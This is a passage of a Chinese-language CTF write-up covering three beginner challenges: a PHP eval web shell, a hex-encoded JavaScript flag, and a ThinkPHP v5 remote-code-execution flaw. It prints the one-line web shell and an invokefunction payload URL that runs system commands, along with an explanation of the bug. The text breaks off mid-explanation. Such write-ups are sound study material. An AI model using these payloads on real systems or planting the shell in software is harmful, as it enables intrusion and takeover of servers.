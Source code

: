 # webshell
- 初步认识了什么叫后门，木马的植入方式之一
- 首先，了解一下` <?php @eval($_POST['shell']);?>`的原理
 - 以POST方式传递shell参数，通过eval()函数执行代码，`@`为不报错的符号
- 那么这就是后门啦，同时一些木马也可以根据这个原理进行植入
- ok，我们第一个想法就是康康有没有`$flag`
- 试试`shell=echo $flag;`，没有反应
- 又试了`$password`,`$_flag`，都没有反应
- 试了试
```php
if(isset($flag)){
    echo 'isset';
}
else{
    echo 'not';
}
```
- 结果都是not
- 后来查到资料，php是可以类似于linux使用`system()`来执行系统命令的
- 我们这次尝试输入`shell=system('ls');`
- 得到
```
flag.txt index.php <?php @eval($_POST['shell']);?> 
```
- 答案很显然了，直接访问`http://220.249.52.133:59137/flag.txt`,得到flag


# simple_js
- 要读懂JS代码哦
- 进去看代码感觉是那种你怎么输都不会对的
- 所以关键在后面那串16进制里面
- 使用在线工具将16进制转换为10进制，再转成ASCII，最后在python中拼接
- 也可以在火狐浏览器控制台中： 

```
console.log("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30") 
```

- 得到：55,56,54,79,115,69,114,116,107,49,50 

```
String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50); 
```

- 得到：786OsErtk12

# php_rce
- 这道题是Thinkphp v5的一个getshell的漏洞
- https://learnku.com/articles/21227
- 因为这个漏洞，我们可以尝试传入默认的参数改变参数值来操作shell
- 比如：`http://220.249.52.133:54736/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`
- 或者`http://220.249.52.133:54736/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`
  - (不知为何，所有的wp都是这个操作，但是我做不到)
- 接下来的事情就很容易了，无非就是输入linux指令
- 接下来研究一下这个漏洞的原理
  - ”在修复之前程序未对控制器进行过滤，导致攻击者可以通过引入 \ 符号来调用任意类方法。“
  - 反斜线之后的，会被%name直接当成类名，且被实例化，这样就有可能直接调用类方法
  - 比如：index.php?s=index/\namespace\class/method ，这将会实例化 \namespace\class 类并执行 method 方法。
  - 在thinkphp中，因为有默认值的关系，直接对s进行操作：